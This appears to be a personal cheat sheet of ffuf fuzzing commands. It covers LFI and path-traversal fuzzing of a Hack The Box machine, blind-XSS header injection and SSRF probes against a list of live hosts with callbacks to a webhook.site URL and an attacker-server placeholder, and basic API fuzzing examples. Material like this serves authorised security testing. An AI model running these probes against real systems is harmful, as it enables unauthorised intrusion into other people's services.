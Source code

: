 
#############################################
#############################################
<br>

ffuf -u http://pikaboo.htb/admin../admin_staging/index.php?page=FUZZ -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -t 200 -c -fs 15349

ffuf -u http://pikaboo.htb/admin../FUZZ -w /usr/share/wordlists/dirb/big.txt -t 200

ffuf -u http://10.10.10.249//admin../FUZZ/ -w /usr/share/wordlists/dirb/big.txt


#############################################
#############################################

ffuf -c -u FUZZ1 -H "FUZZ2: FUZZ3" -w alive_uber.txt:FUZZ1 -w headers.txt:FUZZ2 -w blind_xss.txt:FUZZ3 -x http://192.168.196.1:8082 -mode clusterbomb -v 


ffuf -c -u HOST/?PROT=https://webhook.site/f4494fd5-bd02-4fd2-893d-22368ac954b8/HOST/PROT -w alive_uber.txt:HOST -w ssrf_params:PROT -x http://192.168.196.1:8082 -mode clusterbomb -r -v 


ffuf -c -u HOST/?url=http://{my-server-ip}/DOMAIN/url&file=http://{my-server-ip}/DOMAIN/file -w hosts.txt:HOST -w domains.txt:DOMAIN -mode pitchfork -v 

####################################
####################################

# Basic Usage
ffuf -w wordlist.txt -u http://127.0.0.1:8000/api/FUZZ/6 -o output.txt -replay-proxy http://127.0.0.1:8080

# Basic Usage With a Cookie
ffuf -w wordlist.txt -u http://127.0.0.1:8000/api/FUZZ/6 -o output.txt -replay-proxy http://127.0.0.1:8080 -b "laravel_session=eyJpdiI6Ii8wQU11dTVlUkg2alRHUXBIVzlGSnc9PSIsInZhbHVlIjoiOWs3YllJWTdqNC9xa1pMeFRvMFh0OE1vRFpaWm9GSzFkRktVZS9yUHBDM0lIazZ4K0NsbndxWVIxQ05VZWhqZUZaR0RGQWlFdmdDc24yWllYRklGSXI5STd2b05Pam4yRXIwV1BUWkZhUnFLNUFzOWsycmRHcnlxS0FqRWNsSnEiLCJtYWMiOiI3ZTliMmM2YzIxOTExNDE0NmVjYTYyMGI4Nzg4YzJiYjNmNjVkNDI1YzEyODYwMzY5YzczNzY3NTUwZDk0OGYzIn0%3D;"

# Adding a delay
ffuf -w wordlist.txt -u http://127.0.0.1:8000/api/FUZZ/6 -o output.txt -replay-proxy http://127.0.0.1:8080 –p 1 –t 3

# Adding a delay (new method)
ffuf -w wordlist.txt -u http://127.0.0.1:8000/api/FUZZ/6 -o output.txt -replay-proxy http://127.0.0.1:8080 –rate 100

# Fuzzing 2 values
ffuf -w wordlist.txt:FUZZ -w actions-lowercase.txt:ME -u http://127.0.0.1:8000/api/FUZZ/ME -o output.txt -replay-proxy http://127.0.0.1:8080 
